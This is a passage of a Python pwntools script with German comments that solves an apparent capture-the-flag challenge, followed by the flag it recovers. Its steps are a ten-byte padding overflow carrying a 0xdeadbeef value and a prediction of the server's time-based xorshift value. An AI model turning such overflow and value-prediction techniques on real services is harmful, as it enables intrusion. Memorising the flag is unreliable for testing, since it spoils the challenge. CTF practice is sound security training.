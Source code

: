 ```python
    # Round 2: Senden eines speziellen Strings
    p.sendlineafter(b"?", b"AAAAAAAAAA\xEF\xBE\xAD\xDE")

    # Round 3: Anpassen der Serverzeit mit dem berechneten Offset
    currtime = int(time.time()) + timeoffset
    currtime = currtime ^ (currtime >> 0xc)
    currtime = currtime ^ (currtime << 0x19)
    currtime = currtime ^ (currtime >> 0x1b)

    # Senden der manipulierten Zeit und Empfangen der Flagge
    p.sendlineafter(b"?", str.encode(str(currtime)))
    flag = p.recvall().decode()

    # Überprüfen, ob die Flagge gefunden wurde
    if "FLAG{" in flag:
        break

# Ausgabe der gefundenen Flagge
print(flag)

```
FLAG{climbing_the_mountain}












